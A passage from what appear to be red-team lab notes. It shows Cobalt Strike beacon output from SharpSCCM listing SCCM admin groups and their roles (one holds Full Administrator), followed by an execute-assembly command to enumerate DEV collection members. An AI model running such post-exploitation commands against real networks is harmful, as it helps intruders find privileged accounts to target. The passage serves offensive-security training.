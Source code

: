 ```powershell
AccountType: 1
AdminID: 16777221
AdminSid: S-1-5-21-569305411-121244042-2357301523-1107
Categories: SMS00UNA
CategoryNames: Default
CollectionNames: DEV, CYBER
CreatedBy: SCM-1\Administrator
CreatedDate: 20230927154357.000000+000
DisplayName: 
DistinguishedName: CN=Developers,CN=Users,DC=dev,DC=cyberbotic,DC=io
ExtendedData: Can't display Object as a String
IsCovered: False
IsDeleted: False
IsGroup: True
LastModifiedBy: SCM-1\Administrator
LastModifiedDate: 20230927154542.000000+000
LogonName: DEV\Developers
Permissions: Can't display Object as a String
RoleNames: Read-only Analyst
Roles: SMS0002R
SKey: S01S-1-5-21-569305411-121244042-2357301523-1107
SourceSite: S01
-----------------------------------

[12/18 22:13:06] [+] received output:
AccountType: 1
AdminID: 16777222
AdminSid: S-1-5-21-569305411-121244042-2357301523-1108
Categories: SMS00UNA
CategoryNames: Default
CollectionNames: DEV
CreatedBy: SCM-1\Administrator
CreatedDate: 20230927154525.000000+000
DisplayName: 
DistinguishedName: CN=Support Engineers,CN=Users,DC=dev,DC=cyberbotic,DC=io
ExtendedData: Can't display Object as a String
IsCovered: True
IsDeleted: False
IsGroup: True
LastModifiedBy: SCM-1\Administrator
LastModifiedDate: 20230927154525.000000+000
LogonName: DEV\Support Engineers

[12/18 22:13:06] [+] received output:
Permissions: Can't display Object as a String
RoleNames: Full Administrator
Roles: SMS0001R
SKey: S01S-1-5-21-569305411-121244042-2357301523-1108
SourceSite: S01
-----------------------------------
[+] Completed execution in 00:00:05.5962260

```
This allows us to see what is reflected in the Configuration Manger GUI above.  Members of these collections can be found using `get collection-members -n <collection-name>`.
- allows us to see what computers are in the `DEV` Domain
```powershell
[12/18 22:14:29] beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner
[12/18 22:14:41] [*] Tasked beacon to run .NET program: SharpSCCM.exe get collection-members -n DEV --no-banner
[12/18 22:14:41] [+] host called home, sent: 1233230 bytes
[12/18 22:14:42] [+] received output:
```
